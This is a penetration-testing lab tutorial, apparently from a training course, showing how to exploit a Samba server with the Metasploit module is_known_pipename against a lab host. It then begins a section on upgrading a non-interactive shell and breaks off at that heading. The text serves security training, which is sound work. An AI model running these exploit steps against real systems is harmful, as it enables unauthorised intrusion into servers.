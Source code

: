 This guide covers:
- Scanning the target system using `nmap`.
- Using Tmux to manage multiple terminal sessions.
- Exploiting a Samba vulnerability using Metasploit.
- Setting up a Python HTTP server to serve files.
- Downloading files to the target system after exploitation.

This process allows you to successfully transfer files to a compromised Linux target after obtaining access.

--

## Upgrading Shells

### Upgrading Non-Interactive Shells (Demo)

This guide explains how to upgrade a non-interactive shell to a fully interactive one and ensure proper functionality by checking and setting environment variables.

---

#### 1. Exploiting the Target with Metasploit

We begin by using Metasploit to exploit the target system, which results in a non-interactive shell.

Start Metasploit:

```bash
msfconsole
```

Set the target's IP address globally:

```bash
setg rhosts demo.ine.local
```

Search for Samba-related exploits:

```bash
search samba
```

Select the Samba exploit module:

```bash
use exploit/linux/samba/is_known_pipename
```

Run the exploit:

```bash
run
```

---

#### 2. Dealing with a Non-Interactive Shell
